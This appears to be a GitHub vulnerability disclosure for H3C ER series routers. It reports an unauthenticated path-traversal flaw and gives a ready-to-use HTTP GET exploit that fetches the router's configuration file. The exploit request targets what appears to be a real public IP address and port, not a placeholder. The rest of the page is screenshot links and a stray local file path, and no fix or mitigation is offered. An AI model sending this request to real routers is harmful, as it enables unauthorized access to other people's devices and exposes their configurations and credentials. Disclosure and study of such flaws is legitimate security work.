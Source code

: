 # H3C ER series router system management has unauthorized access vulnerability

**Product**: ER series router

**version**: all

**rating**: high-risk

**website**: http://www.h3c.com/

**Hazards**: Attackers can exploit this vulnerability to obtain sensitive information from routers by constructing special request packets to bypass identity verification.

**principle**: The router did not authenticate directory access and related files

**exp**:

```http
GET /userLogin.asp/../actionpolicy_status/../ER5200G2.cfg HTTP/1.1
Host: 58.221.11.74:12345
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Sphere of influence：H3C Router Management ER Partial series

The address of the vulnerability：





 

ER Screenshots of the rest of the series：

 

ER5200G2：![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/4c381e01-2c76-46b7-85b4-678bc960c92f)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/046206b9-7728-4715-aafb-a867f9ac390d)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/c29ea543-8de9-479f-95cd-21be85e6625e)


 

![img](file:///C:/Users/Lenovo/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

 


